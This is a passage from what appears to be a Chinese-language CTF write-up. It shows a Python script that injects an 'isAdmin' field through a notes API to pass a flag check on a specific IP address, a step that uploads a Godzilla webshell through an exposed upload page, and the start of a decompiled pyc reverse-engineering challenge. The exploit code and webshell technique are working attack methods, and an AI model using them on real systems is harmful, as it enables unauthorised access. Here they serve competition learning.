 往`/api/notes`路径下POST传入json，内容为`{&#34;id&#34;: 1, &#34;isAdmin&#34;: 1}`
`id`的值随意，跟一个isAdmin并确保能过`/api/flag`路径下的判断

在请求头中传入`note-id`即可获得flag
这里用python脚本实现，burp有bug
```python
import requests

url = &#34;http://139.155.126.78:32940&#34;
data = {&#34;id&#34;: 1, &#34;isAdmin&#34;: 1}
headers = {&#34;note-id&#34;: &#34;1&#34;}

res = requests.post(url &#43; &#34;/api/notes&#34;, json=data)
print(res.text)

res2 = requests.get(url &#43; &#34;/api/notes/1&#34;)
print(res2.text)

res3 = requests.get(url &#43; &#34;/api/flag&#34;, headers=headers)
print(res3.text)
```

### 2. hack memory
扫目录，发现`upload`，哥斯拉生成shell直接上传
getshell后在根目录得到flag
![alt text](/images/ZJSS-s7/image-11.png)

## Reverse
### ezRe
题目给了一个pyc文件，pycdc反编译不出来，那就pycdas反编译字节码然后翻译成python代码
```python
import base64

text = input(&#34;Flag: &#34;)
key = [ord(i) ^ 102 for i in &#39;7e021a7dd49e4bd0837e22129682551b&#39;]

s = list(range(256))
j = 0
for i in range(256):
    j = (j &#43; s[i] &#43; key[i % len(key)]) % 256
```